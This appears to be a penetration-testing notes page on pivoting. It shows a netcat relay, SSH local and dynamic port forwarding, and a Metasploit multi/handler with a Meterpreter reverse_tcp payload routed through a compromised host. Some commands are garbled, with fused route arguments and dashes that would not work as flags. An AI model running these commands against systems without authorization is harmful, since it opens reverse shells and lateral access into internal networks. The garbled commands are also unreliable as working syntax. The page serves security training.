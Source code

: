 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

```Shell
$mknod backpipe p
$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe
```

![](../.gitbook/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

```Shell
$ ssh –L port:destination_host:destination_port username@pivot_host
```

`-L` indicates to use local port forwarding

![](../.gitbook/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

```Shell
ssh –D address:port –f –N username@pivot_host
```

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

```
# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
user@192.168.112.132's password:
```

![](../.gitbook/assets/ssh_dynamic_port_fwd.png)

 _**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

```Shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.112.132
LHOST => 192.168.112.132
msf exploit(handler) > set LPORT 2222
LPORT => 2222
msf exploit(handler) > run
```

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

```Shell
msf exploit(handler) > route add192.168.128.0255.255.255.0 1
[*] Route added
msf auxiliary(tcp) > route print
```

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](../.gitbook/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](../.gitbook/assets/web_app_tool_pivot.png)

